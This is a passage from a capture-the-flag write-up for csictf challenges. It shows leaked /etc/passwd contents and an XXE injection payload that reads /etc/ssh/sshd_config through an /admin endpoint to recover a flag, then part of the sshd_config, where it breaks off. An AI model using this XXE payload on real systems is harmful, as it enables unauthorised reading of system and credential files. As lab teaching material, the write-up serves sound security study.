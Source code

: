 * We get the `/etc/passwd` file which contains a GitHub link<br/>

```
root:root:x:0:0:root:/root:/bin/bash
...
...
...
gke-dbbca0b7b97e65e155bf:x:1004:1005::/home/gke-dbbca0b7b97e65e155bf:/bin/bash
csictf:x:1005:1006:csictf,csictf,csictf,csictf,csictf:/home/csictf:/bin/bash
administrator:x:1006:1007:administrator,admin,admin,admin,admin:/home/administrator:/bin/bash
https://gist.github.com/sivel/c68f601137ef9063efd7
```

* The [GitHub link](https://gist.github.com/sivel/c68f601137ef9063efd7) is about using a `custom ssh configuration`, this hints us to check the `sshd_config` file
* Obtain `sshd_config` by exploiting the `XXE Injection` vulnerability in `/admin`<br/>

**Payload**
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/ssh/sshd_config" >]>
<foo>&xxe;</foo>
```

* Find the flag commented out in the obtained file<br/>

```
...
# csictf{cu5t0m_4uth0rizat10n}
AuthorizedKeysCommand /usr/local/bin/userkeys.sh
AuthorizedKeysCommandUser nobody
...
```

### HTB 0x3,0x4,0x6

* As seen in write-up [HTB 0x5](#htb0x5), we get the following contents from the sshd_config file.<br/>

```
# This is the sshd server system-wide configuration file. See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented. Uncommented options override the
# default value.

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
```